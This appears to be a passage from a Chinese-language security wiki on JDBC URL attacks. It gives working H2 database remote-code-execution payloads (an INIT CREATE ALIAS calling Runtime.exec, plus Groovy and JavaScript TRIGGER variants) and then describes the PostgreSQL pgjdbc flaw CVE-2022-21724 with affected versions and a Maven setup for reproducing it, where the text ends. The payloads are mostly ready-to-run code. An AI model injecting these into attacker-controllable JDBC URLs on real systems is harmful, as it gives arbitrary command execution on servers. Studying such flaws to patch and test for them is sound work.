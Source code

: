 **PoC**
``` 
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXECA AS 'String shellexec(String cmd) throws java.io.IOException{Runtime.getRuntime().exec(cmd)\\;return \"hacker\"\\;}'\\;CALL EXECA('calc')
```

**TRIGGER Script RCE**

除了ALIAS别名还可以用TRIGGER手写groovy或者js代码去RCE。

```sql
// groovy
Class.forName("org.h2.Driver");
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";

// js
CREATE TRIGGER poc2 BEFORE SELECT ON
INFORMATION_SCHEMA.TABLES AS $$//javascript
java.lang.Runtime.getRuntime().exec("calc") $$;
```

TRIGGER不能在INIT处使用

#### PostgreSQL

在 PostgreSQL 数据库的 jdbc 驱动程序中发现一个安全漏洞（CVE-2022-21724）。当攻击者控制 jdbc url 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。 pgjdbc 根据通过 `authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory` 、`sslfactory`、`sslpasswordcallback` 连接属性提供类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

!!! tips "版本要求"

    9.4.1208 <=PgJDBC <42.2.25

　　42.3.0 <=PgJDBC < 42.3.2

**漏洞复现**

=== "pom.xml"

    ```xml
    <dependencies>
        <!-- https://mvnrepository.com/artifact/org.postgresql/postgresql -->
        <dependency>
            <groupId>org.postgresql</groupId>
            <artifactId>postgresql</artifactId>
            <version>42.3.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context-support</artifactId>
            <version>5.3.23</version>
        </dependency>
    </dependencies>
    ```
